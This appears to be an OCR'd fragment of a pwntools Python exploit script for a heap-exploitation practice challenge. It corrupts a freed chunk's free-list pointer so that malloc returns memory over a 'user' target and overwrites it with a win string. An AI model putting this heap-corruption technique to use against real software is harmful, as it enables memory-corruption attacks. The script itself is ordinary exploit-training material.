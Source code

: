 ```python=
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def edit(index, data):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')

def target():
    io.send(b'4')
    io.recvuntil(b'> ')

def quit():
    io.send(b'5')
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

io = start()
puts, heap = handle()

# target fd 
name = p64(0) + p64(0x401) + p64(elf.sym['user']) + p64(elf.sym['user'])
send_name(name)

chunk_A = malloc(0x3f8)
malloc(0x88)
chunk_B = malloc(0x3f8)
malloc(0x88)

free(chunk_A)
free(chunk_B)

malloc(0x408)

edit(chunk_A, p64(elf.sym['user']))

fake_chunk = malloc(0x3f8)

edit(fake_chunk, p64(0)*4 + b'Much win\x00')
target()
quit()

io.interactive()

```

---